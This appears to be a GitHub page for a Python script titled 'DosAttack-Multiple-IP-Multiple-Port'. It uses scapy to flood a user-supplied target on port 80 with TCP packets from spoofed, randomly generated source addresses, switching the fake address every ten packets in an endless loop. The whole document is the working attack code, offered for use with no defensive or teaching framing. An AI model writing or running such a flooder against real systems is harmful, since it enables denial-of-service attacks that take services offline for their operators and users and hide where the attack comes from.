 # DosAttack-Multiple-IP-Multiple-Port-

import random
from scapy.all import *
targetIP = raw_input("Hedef IP [Target IP]: ")
i=1

def get_randomSourceIP():
	a = str(random.randint(1,254)) #  a.b.c.d (for instance: a.168.1.1)
	b = str(random.randint(1,254)) # (192.b.c.d)
	c = str(random.randint(1,254)) # (192.168.c.d)
	d = str(random.randint(1,254)) # (192.168.1.d) -> 192.168.1.1
	dot = "."
	src = a+dot+b+dot+c+dot+d
	return src

while 1: 
	source=get_randomSourceIP()
	
	print (source)

	startPort = random.randint(1,1000)
	endPort = random.randint(1000,65535)
	loop_exit = 0
	for srcport in range(startPort,endPort):
		IP1 = IP(src=source, dst=targetIP)
		TCP1 = TCP(sport=srcport, dport=80)
		packet = IP1 / TCP1
		send(packet,inter= .0001)
		print ("packet sent ", i)
		loop_exit = loop_exit+1
		i=i+1
		if loop_exit ==10 : # Each Source IP randomly changes for every 10 steps
			break
